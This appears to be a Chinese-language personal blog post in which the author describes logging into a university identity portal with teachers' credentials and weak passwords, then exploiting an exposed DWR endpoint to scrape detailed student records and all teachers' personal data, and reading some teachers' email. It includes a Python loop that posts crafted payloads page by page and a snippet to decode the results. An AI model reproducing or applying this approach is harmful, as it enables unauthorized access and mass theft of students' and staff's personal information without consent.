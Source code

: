 ```yaml
---
layout: post
title: Crawl From Little II
categories: 学习数据挖掘的路上
tags: 学习笔记 抓取数据
---
```

#### 接上回那个勉强算得上或算不上抓取的回忆，但是那些数据之中有一些很敏感的信息，包括教师的详细信息，利用这个信息登陆统一身份验证平台，想必又会有收货呢

### 登陆统一身份验证平台
在登陆的过程中，发现女老师对密码安全基本是没什么意识的，虽然你们也是计算机学院的，但是你们真的好意思说你们是计算机学员的吗？
在登陆进去，发现老师可以查询学生的信息（仅包含姓名学号，班级），看了看挺失望的，毕竟这些信息没什么鸟用，但是当我看网页源码的时候，发现这个系统的开发人员很不负责，只是把之前写的文本框给遮盖了，但是还是靠那个传数据。于是抓包分析，发现是post request payload，response的结果却是student的详细信息(一应俱全，应有尽有),好呗
不得不说，很激动，抓呗。

```python
#-*-coding:utf-8-*-
import requests
import urllib2
import urllib
import encodings

url = ""
header={}
def xs(request_payload):
	request = urllib2.Request(url, headers=headers, data=urllib.urlencode(request_payload))
	response = urllib2.urlopen(request, timeout=5)
	content = response.read()
	print(content)

for i in range(1,70):
	m_request_payload = {
	'callCount':'1',
	'httpSessionId':'ssssssssssssssssssssssssss',
	'scriptSessionId':'sssssssssssssssssssssssss',
	'page':'/xxxxx/xxxxx/171',
	'c0-scriptName':'XSXXDwrAction',
	'c0-methodName':'getList',
	'c0-id':'165116513216516',
	'c0-param0':'number:'+ str(i),
	'c0-param1':'null:null',
	'c0-param2':'null:null',
	'c0-param3':'string:',
	'c0-param4':'number:15'
}
xs(m_request_payload)
	
```
当然这还没有解码，数据获取的类型是
![img5](../image/crawl/5.png)

```python
import  re
pattern = r'"(.*?)"'
with open('IDinfomation','r') as f:
    key = re.findall(pattern,f.read())
    for peopele in key:
    tt=peopele.decode('raw_unicode_escape').encode('utf-8')
```

最后稍微提取一下就能得到详细的信息了，全是你想要的，如果在内网中，还可以通过统一身份平台跳到教务系统，然后把这些人的图片爬下来，哈哈，想想都有点激动呢。

然后晚上的时候，登一个账号发现里面的通讯录的response也是很奇怪，把老师的详细信息都response了，稍微改下post,于是所有的老师更加详细的信息到手。而且没事还挑了几个老师的学校邮箱看了看，不过并没有什么有用的。
本来想做个统计，绘个图表，结果发现统一信息门户里面都已经给了可视化的图，虽然很丑。不过我现在数据并未完全组织好，也没插入到数据库，电脑估计是要重装了。之前折腾的有问题了。

最后，老师来查mac地址，希望没事吧。虽然这个没有什么技术含量，但是还是很有动力的。




